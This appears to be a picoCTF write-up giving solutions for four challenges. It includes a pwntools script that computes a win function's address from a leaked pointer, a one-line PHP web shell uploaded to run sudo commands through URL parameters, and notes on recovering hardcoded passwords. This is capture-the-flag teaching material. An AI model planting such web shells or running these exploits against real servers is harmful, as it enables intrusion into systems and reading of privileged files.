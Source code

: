 
## PIE TIME

```
from pwn import *  
  
hostname ='rescued-float.picoctf.net'
port = 53223
p = remote(hostname, port)
p.recvuntil(b"main: ")  
main_addr = int(p.recvline().strip(), 16)  
win_addr = main_addr - 0x96  
p.sendline(hex(win_addr))  
p.recvuntil(b"You won!\n")  
flag = p.recvline()  
print(flag.strip().decode("utf-8"))  
p.close()
```


## n0s4n1ty 1

Make a php payload and upload it

```
<?=`$_GET[cmd]`?>
```

Now you can run this to get the flag
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20ls%20-la%20/root
```
```
http://standard-pizzas.picoctf.net:65172/uploads/shell.php?cmd=sudo%20cat%20/root/flag.txt
```


## PW Crack 1

On seeing the Python code provided, We can see that the password is being compared with `1e1a`. So entering `1e1a` as the password, we can obtain the flag


## PW Crack 2

On seeint the python code provided we can see that the passowrd is written in hex which is converted to chr when comparing. So we can take only that part and run it on python to see what it gives

![alt text](Pictures/PWCrack2.png)

Using this passowrd gives the flag
